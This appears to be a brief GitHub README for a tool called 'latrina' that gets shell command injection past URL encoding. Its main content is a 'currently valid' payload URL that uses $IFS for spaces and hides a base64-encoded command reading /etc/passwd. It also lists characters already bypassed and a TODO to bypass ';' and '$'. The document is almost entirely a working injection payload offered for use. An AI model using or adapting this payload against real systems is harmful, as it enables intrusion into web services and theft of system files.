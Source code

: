 # latrina
bypass url encoding with nontrivial commands

currently valid:
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<$a)



# bypassed
```
"
{
}
' ' # space
```

# TODO
bypass ; and $

